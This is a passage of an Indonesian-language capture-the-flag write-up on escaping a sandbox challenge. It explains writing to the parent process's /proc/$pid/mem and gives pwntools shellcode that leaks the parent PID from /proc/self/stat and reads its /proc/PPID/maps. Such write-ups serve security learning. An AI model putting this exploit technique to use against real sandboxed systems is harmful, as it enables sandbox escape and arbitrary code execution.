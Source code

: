 Dengan ilmu yang sudah kita miliki, menggunkana 0x40000208 sebagai nilai dari rax, execve seharusnya berjalan dan process parent seharusnya menangkapnya sebagai 0x40000208. Sayangnya, syscall ini tidak berjalan pada docker saya. Nanti saya cari cara memperbaikinya.

<b>3. Menulis ke /proc/$pid/mem (berhasil)</b><br>
Hal terakhir yang saya coba adalah file /proc/$pid/mem. File ini secara abtrak mengandung seluruh memory program suatu process pada saat runtime. File ini bersifat writable, sehingga kita dapat menulis apa saja yang kita inginkan pada suatu process bahkan saat runtime. Dengan cara ini, kita bisa menulis shellcode, mengubah pointer, dsb dengan hanya menulis ke file ini.

Ide saya sebagai berikut, menulis ke program memory parent process (yaitu program <span style="color:#00ffff">sandbox</span>) dan memanggil execve dengan one_gadget.

Pertama kita perlu tau PID dari parent process. Hal ini dapat dicapai dengan membaca file /proc/self/stat dari child process. Angka keempat merupakan PPID (Sebenarnya kedua, tapi ntah kenapa berhasil untuk aku, minimal secara lokal. Mungkin secara remote harus yang kedua).

```python
sc = '''
mov rax, 0
mov rdi, 0
mov rsi, r13
mov rdx, 0x1000
syscall
'''
sc += shellcraft.pushstr('/proc/self/stat')
sc += shellcraft.open('rsp', 0, 0)
sc += shellcraft.read('rax', 'rsp', 0x200)
sc += shellcraft.write(1, 'rsp', 0x200)

sc += '''
jmp r13
'''
shellcode = '\x90'*80 + asm(sc).ljust(0x200, '\x90')
p.sendline(shellcode)

## PPID LEAK
p.recvuntil('R ')
p.recvuntil(' ')
p.recvuntil(' ')
PPID = int(p.recvuntil(' '))
print PPID
```

Kedua, saya perlu mendapatkan mapping parent process. Hal ini dapat dilakukan dengan membaca file /proc/$pid/maps.

```python
sc = '''
mov rax, 0
mov rdi, 0
mov rsi, r13
mov rdx, 0x1000
syscall
'''
sc += shellcraft.pushstr('/proc/{}/maps'.format(PPID))
sc += shellcraft.open('rsp', 0, 0)
sc += shellcraft.read('rax', 'rsp', 0xa00)
sc += shellcraft.write(1, 'rsp', 0xa00)

sc += '''
jmp r13
'''
shellcode = '\x90'*80 + asm(sc).ljust(0x200, '\x90')
p.sendline(shellcode)

p.recvuntil('sandbox')
```